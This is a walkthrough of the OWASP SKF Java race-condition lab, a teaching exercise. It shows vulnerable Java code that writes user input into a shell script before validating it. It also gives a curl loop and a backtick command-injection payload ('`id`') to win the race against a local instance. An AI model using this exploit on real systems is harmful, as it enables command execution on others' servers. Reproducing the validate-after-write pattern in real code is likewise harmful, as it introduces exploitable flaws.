 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/python/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/python/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/python/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `bootValidate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `bootClean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `bootRun()` executes the `hello.sh` file

4. `bootReset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `bootValidate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `bootRun()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `bootRun()` executing the `hello.sh` file.

We also notice that the function `bootValidate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```java
public String bootValidate(String person) {
    try (FileWriter writer = new FileWriter("hello.sh", false)) {
      writer.write("echo \"" + person + "\" > hello.txt");
      writer.close();
      java.util.Date date = new java.util.Date();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh updated -- " + date + "' > log.txt").start();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh cleaned -- " + date + "' >> log.txt").start();
      Process p3 = new ProcessBuilder("/bin/bash", "-c", "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh")
          .start();
      BufferedReader reader = new BufferedReader(new java.io.InputStreamReader(p3.getInputStream()));
      String valid = reader.readLine();
      System.out.println(valid);
      return valid == null ? "" : valid;
    } catch (Exception e) {
      e.printStackTrace();
    }
    return "";
  }
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `bootRun()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `bootValidate`
2. write the malicious payload in `hello.sh`
3. call `bootRun()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/python/RaceCondition/4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
